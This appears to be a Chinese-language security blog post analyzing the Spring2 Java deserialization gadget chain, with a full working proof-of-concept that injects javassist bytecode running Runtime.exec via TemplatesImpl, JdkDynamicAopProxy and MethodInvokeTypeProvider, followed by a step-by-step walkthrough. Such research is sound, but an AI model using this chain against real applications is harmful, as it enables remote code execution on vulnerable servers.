


# 环境搭建

```
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-core</artifactId>
    <version>4.1.4.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>4.1.4.RELEASE</version>
</dependency>
```

与Spring1所需依赖不同，将spring-beans替换成了spring-aop

# 漏洞复现

```
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.aop.framework.AdvisedSupport;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;

public class Spring2 {
    public static String fileName = "Spring2.bin";

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[][] bytes = new byte[][]{STU.toBytecode()};

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", bytes);
        setFieldValue(templates, "_name", "1");
        setFieldValue(templates, "_class", null);

        // 实例化 AdvisedSupport
        AdvisedSupport as = new AdvisedSupport();

        as.setTarget(templates);

        // 使用 AnnotationInvocationHandler 动态代理
        Class<?>       c           = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        // JdkDynamicAopProxy 的 invoke 方法触发 TargetSource 的 getTarget 返回 tmpl
        // 并且会调用 method.invoke(返回值,args)
        // 此时返回值被我们使用动态代理改为了 TemplatesImpl
        // 接下来需要 method 是 newTransformer()，就可以触发调用链了
        Class<?>       clazz          = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> aopConstructor = clazz.getDeclaredConstructors()[0];
        aopConstructor.setAccessible(true);
        // 使用 AdvisedSupport 实例化 JdkDynamicAopProxy
        InvocationHandler aopProxy = (InvocationHandler) aopConstructor.newInstance(as);

        // JdkDynamicAopProxy 本身就是个 InvocationHandler
        // 使用它来代理一个类，这样在这个类调用时将会触发 JdkDynamicAopProxy 的 invoke 方法
        // 我们用它代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类
        // 这样这个代理类同时拥有两个类的方法，既能被强转为 TypeProvider.getType() 的返回值，又可以在其中找到 newTransformer 方法
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, aopProxy);


        // 接下来代理  TypeProvider 的 getType() 方法，使其返回我们创建的 typeTemplateProxy 代理类
        HashMap<String, Object> map2 = new HashMap<>();
        map2.put("getType", typeTemplateProxy);

        InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, newInvocationHandler);


        // 初始化 MethodInvokeTypeProvider
        Class<?>       clazz2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons   = clazz2.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field  field   = clazz2.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream(fileName));
        objectOutputStream.writeObject(objects);

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(fileName));
        objectInputStream.readObject();
    }
    public static void setFieldValue(Object obj,String fileName,Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fileName);
        field.setAccessible(true);
        field.set(obj,value);
    }

}
```



# 漏洞分析

在分析完了Spirng1后，这条链子相对来说很简单了，在Spring1这条链子中，我们是找到了Sping-beans依赖包中的ObjectFactoryDelegatingInvocationHandler的invoke方法去调用TemplateImpl的newTransformer方法

而Spring2中则是用到了Spring-Aop包中的JdkDynamicAopProxy，这个类是Spring Aop基于动态代理的实现，但同时又实现了InvocationHandler接口


我们来看看这个类的invoke方法

```
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
    Object oldProxy = null;
    boolean setProxyContext = false;
    TargetSource targetSource = this.advised.targetSource;
    Class<?> targetClass = null;
    Object target = null;

    Object var13;
    try {
				... ...

        target = targetSource.getTarget();
        if (target != null) {
            targetClass = target.getClass();
        }

        List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);
        if (chain.isEmpty()) {
            retVal = AopUtils.invokeJoinpointUsingReflection(target, method, args);
        } else {
            MethodInvocation invocation = new ReflectiveMethodInvocation(proxy, target, method, args, targetClass, chain);
            retVal = invocation.proceed();
        }
```

我删除了一部分不会进入的if代码，主要就是判断method是不是equals，hashCode等方法

我们来关注这几行代码，advised是AdvisedSupport属性

```
TargetSource targetSource = this.advised.targetSource;
target = targetSource.getTarget();
List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);
if (chain.isEmpty()) {
            retVal = AopUtils.invokeJoinpointUsingReflection(target, method, args);
        } 
```

首先获取AdvisedSupport等targetSource，然后从中取出target


AdvisedSupport中可以直接调用setTargetSource，也可以调用setTarget传入一个target并将TargetSource设置成SingletonTargetSource对象

而SingletonTargetSource中存在一个getTarget方法，能直接返回target的值

```
public Object getTarget() {
    return this.target;
}
```

而默认情况下`List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);`返回的list为空，所以会进入if

这里跟进`AopUtils.invokeJoinpointUsingReflection(target, method, args);`


直接调用了TemplatesImpl的newTransformer方法，因为这里的getTarget方法的返回值可以直接控制，也没有必要去使用动态代理了，所以这条链子就只需要两层动态代理

还是从MethodInvokeTypeProvider的readObject方法开始分析吧


这里通过一层动态代理返回一个Type接口的动态代理实例，跟进invokeMethod


这里的target是返回的动态代理实例，相当于去调用其newTransformer方法，因为需要去找到这个方法，所以刚才那个代理实例不仅要实现Type接口也需要去实现Templates接口

接下来就来到刚才说的JdkDynamicAopProxy的invoke方法了



往下走到invokeJoinpointUsingReflection


接下来调用TemplateImpl的newTransformer方法，至此，这条链子也就分析完成了


参考链接

[Spring系列反序列化链 | ch1e的自留地](https://ch1e.cn/post/spring-xi-lie-fan-xu-lie-hua-lian/#spring2反序列化)

https://su18.org/post/ysoserial-su18-3/#spring2